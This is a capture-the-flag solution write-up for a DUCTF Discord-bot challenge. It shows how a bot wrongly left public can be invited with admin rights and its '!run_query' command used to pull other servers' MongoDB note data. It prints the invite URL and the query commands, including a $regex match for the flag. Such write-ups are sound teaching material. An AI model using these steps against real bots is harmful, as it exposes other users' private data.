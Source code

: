 # Solution
This challenges name is a play on the fact that the bot was misconfigured as public, as well as the fact that once we are able to run queries on the database we can query data for other peoples servers.

### Step 1
Create a new discord server.

### Step 2
Invite the bot to our new server by using this url: \
https://discord.com/oauth2/authorize?client_id=738992913652121690&scope=bot&permissions=8

The client ID can be found by right clicking on the bot with developer mode enabled and copying the bots ID. This is a standard way of inviting bots and you can read more about it in the [official Discord developer documentation](https://discord.com/developers/docs/topics/oauth2#bot-vs-user-accounts).\
Normally bots are set to private, however this one was "accidentally" set to public, allowing the public to invite it to their servers.

### Step 3
Now by running `!help` in our own server, we can see that that new admin commands are exposed to us: `!get_server_notes` and `!run_query`
```
Admin:
get_server_notes Returns all of the notes affiliated with this server
run_query        Run a query in the given collection
Notes:
clear            Clear a users notes
note             Start the creation of a new note. Be careful what you note...
notes            Retrieve previously saved notes
No Category:
help             Shows this message

Type !help command for more info on a command.
We can also type !help category for more info on a category.
```
This can be seen by comparing the output of `!help` in a server we are not admin of to one we are an admin of.

The `!run_query` command looks like it will be of some use to us. We can find out more by running `!help run_query` to receive the following output:
```
!run_query <query> <collection>

Run a query in the given collection

Args:
    ctx (commands.Context): Invoking context
    query (str): The query to run, json form
    collection (str): The name of the collection to run the query in.
    It must already exist in the db.
```

### Step 4
Run the `!run_query` command with the server ID for the DUCTF Discord server and a filter to match documents containing the flag.
We can figure out that the backend database is MongoDB via the mention of `collection` and `json form` in the `!run_query` commands help text.\
Another way would be to test it out by running a match-all query on our own server.

```
!run_query {} <server_id>
``` 

Since the flag is stored in the notes of the bot as well as Delta#5000 (me) as hinted in the challenge description, a possible query is:
```
!run_query {\"notes\":{\"$elemMatch\":{\"$regex\":\"DUCTF\"}}} 721605871414542377
```
or
```
!run_query {\"notes\":{\"$elemMatch\":{\"$regex\":\"DUCTF\"}},\"user_id\":177022915747905536} 721605871414542377
```
The DUCTF server ID is found in the same way as the bot ID, by right clicking the DUCTF server icon and clicking copy ID.

Note how we have to escape the double quotes. If we did not we would get no output from the bot. This occurs becase as an exception is thrown due to the [way `discord.py` handles multi-world arguments to commands](https://github.com/Rapptz/discord.py/blob/master/discord/ext/commands/view.py#L172).

We can get a feel for how the data looks by running a match all query:\
```
!run_query {} 721605871414542377
```
However we won't be able to find the flag that way as apparently I really love Crodocile Dundee!

